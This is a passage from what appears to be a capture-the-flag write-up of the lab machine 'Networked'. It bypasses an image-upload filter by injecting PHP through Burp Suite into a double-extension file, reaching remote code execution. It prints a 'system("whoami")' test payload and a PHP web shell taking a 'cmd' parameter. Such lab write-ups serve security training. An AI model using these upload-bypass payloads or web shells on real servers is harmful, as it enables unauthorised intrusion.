 I start my tests to try to upload a malicious file to the server, the first thing is to upload an image without malicious content and I have no problems, because after doing so I can access it with the browser and the application redirects me to the path where it is hosted. But if I try to upload files with clear text or **PHP** code, it does not allow me to do so, even when they have a **.jpg** extension (corresponding to that of an image). I continue with another technique is to use double extension (**.php.jpg**) but I don't succeed either.

```bash
nvim test.jpg
cat !$
# http://10.10.10.146/upload.php

nvim test.php.jpg
cat !$

cp /home/al3j0/Downloads/pwn3d.jpeg ./pwn3d.php.jpeg
```

<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

For my next attempt I use **BurpSuite** to capture the requests and modify the content I'm trying to upload to the server, so I send a harmless but double-extended image. Once **BurpSuite** shows me the content of the request, I directly inject malicious **PHP** code into the encoded text representing the image and then turn off the interception so that the request continues on its way to the server. From the browser I check that the image was uploaded correctly, although it can not be displayed correctly because it was corrupted with the injected code, at the end I can see the output of the same, in this way I have achieved a **RCE**. My next step is to upload a web shell, but if I use the **shell_exec** function I cannot execute commands.

```bash
burpsuite &>/dev/null & disown
# http://10.10.10.146/upload.php
# <?php system("whoami"); ?>

# http://10.10.10.146/photos.php
# http://10.10.10.146/uploads/10_10_14_3.php.jpeg

cp pwn3d.php.jpeg shell.php.jpeg
# http://10.10.10.146/upload.php
# <?php shell_exec($_REQUEST["cmd"]); ?>
# http://10.10.10.146/uploads/10_10_14_3.php.jpeg?cmd=whoami
```
